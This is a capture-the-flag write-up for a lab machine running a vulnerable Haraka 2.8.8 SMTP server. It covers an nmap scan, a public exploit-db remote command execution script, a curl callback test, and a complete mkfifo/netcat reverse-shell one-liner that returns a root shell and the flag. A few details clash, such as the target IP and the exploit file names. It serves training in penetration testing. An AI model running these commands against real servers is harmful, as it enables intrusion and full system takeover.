 ```yaml
---
layout: post
title: "CTF7E4 - HARP Machine"
categories: CTF7E4
---
```


## Summary
&nbsp;
This machine had a vulnerability running on the port 25 (smtp service) which allowed an attacker to execute system commands. The service is named Haraka and the vulnerability exists in a plugin for processing attachments. If this service was started by user **root**, which in this case it was. Then the attacker could easily get a reverse shell and completely compromise the machine.

&nbsp;

- **OS:** Linux
- **IP:** 10.10.10.22
- **Difficulty:** Easy

## Steps
&nbsp;

In order to hack this machine, we should know what ports are open and we can do that by using a popular tool such as Nmap.

> **→ nmap -sC -sV -oN scan 10.10.10.22**{: style="color: red"}

**-sC** Use default scripts
**-sV** Probe open ports to determine service/version info
**-oN** Save output in nmap format.
&nbsp;

```
Nmap scan report for 10.10.10.22
Host is up (0.018s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:58:d1:e5:9e:4c:ae:fc:9c:16:3d:1f:51:a2:86:57 (RSA)
|   256 1c:b6:1f:66:26:df:c2:e2:0a:e2:b1:f3:c5:47:77:bf (ECDSA)
|_  256 04:9a:c6:31:c6:da:f0:33:1c:6f:ad:13:4c:2b:59:3a (ED25519)
25/tcp open  smtp    Haraka smtpd 2.8.8
|_smtp-commands: harp Hello [10.10.20.2], Haraka is at your service., PIPELINING, 8BITMIME, SIZE 0, 
80/tcp open  http    Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Index of /
Service Info: Hosts: harp, 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
&nbsp;
&nbsp;

From the nmap scan output, we can see that there is a web server running on port 80 and 443. Browsing to https://10.10.10.11/ we can see that directory listing is enabled and there aren't any files so we don't need to do a directory or file bruteforce.

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/harp1.png){:.images}
&nbsp;

Using a tool such as searchsploit we can search for known exploits that are published on [exploit-db](https://exploit-db.com). From our search results, we can that Haraka versions prior to 2.8.9 suffer from a Remote Command Execution.


&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/harp2.png){:.images}
&nbsp;

> **→ cp /usr/share/exploitdb/exploits/linux/remote/41162.py exploit.py**{: style="color: red"}

To test if the exploit works, we can listen for a connection on a specific port with netcat.

> **→ nc -lnvp 9000**{: style="color: red"}

And send a request to our server using curl or wget from the attacker machine.

> **→ python2 haraka-rce.py -c 'curl 10.10.20.2:9000' -t root@haraka.test -m 10.10.10.22**{: style="color: red"}


&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/harp3.png){:.images}
&nbsp;

This means that the command that we send with the python script was executed. We can proceed to get a reverse shell with **nc** so we can find and read the **flag.txt**.

> **→ nc -lnvp 1337**{: style="color: red"}

And send a request to our server using curl or wget from the attacker machine.

> **→ python2 haraka-rce.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.20.2 1337 >/tmp/f' -t root@haraka.test -m 10.10.10.22**{: style="color: red"}

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/harp6.png){:.images}
&nbsp;

> **→ nc -lnvp 1337**{: style="color: red"}

```bash
Connection from 10.10.10.22:45150
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/flag.txt
XOR{6bf5c10c7efcf0fa08821157b5a6d320825009c5}

```

&nbsp;
I hope you had fun solving this machine and learning something new.